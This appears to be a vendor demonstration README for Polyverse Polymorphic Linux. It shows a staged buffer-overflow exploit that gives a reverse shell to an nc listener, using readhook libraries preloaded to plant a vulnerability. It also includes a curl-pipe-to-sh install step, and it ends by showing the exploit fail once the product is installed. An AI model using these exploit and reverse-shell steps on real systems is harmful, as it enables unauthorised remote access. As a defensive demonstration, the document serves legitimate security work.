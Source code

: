 # Demonstration: Polyverse Polymorphic Linux
## Set up for a Reverse Shell
### (1) Start nc listening on port 5555 (Session-1)
```
nc -kl 5555
```
## Run Server with Readhook
### (2) Start the container with an interactive shell (Session-2)
```
docker run -it --rm -p 8080:8080 polyverse/node-echo-server /bin/sh
```
### (2) We'll need curl and wget
```
apk update && apk add curl wget ca-certificates && update-ca-certificates
```
### (2) Get readhook components
```
wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/v1.2.1/basehook.so
wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/v1.2.1/fullhook.so
```
### (2) Run the echo-server with readhook in front of libc
```
LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node /src/echo-server.js
```
## Generate Shell-Code and Perform Exploit
### (3) Generate shell-code for the exploit (Session-3)
```
export shellCode=$(curl localhost:8080/xyzzxMAKELOADdocker.for.mac.localhost:5555)
```
### (3) Send shell-code to the OVERFLOW for a reverse shell
```
curl localhost:8080/$shellCode
```
### (1) Check that the overflow resulted in a remote shell
```
ls && whoami && exit
```
## Install Polyverse Polymorphic Linux
### (2) Add Polyverse as the preferred repository
```
curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
```
### (2) Replace standard packages with Polymorphic Linux
```
sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
```
## Test Polyverse Polymorphic Linux
### (2) Re-run the echo-server with (only) basehook.so
```
LD_PRELOAD=/tmp/basehook.so node /src/echo-server.js
```
### (3) Try the shellCode with Polymorphic Linux
```
curl localhost:8080/$shellCode
```
### (1) Confirm that nobody phoned-home to the listener
### (2) Confirm that the server terminated abnormally
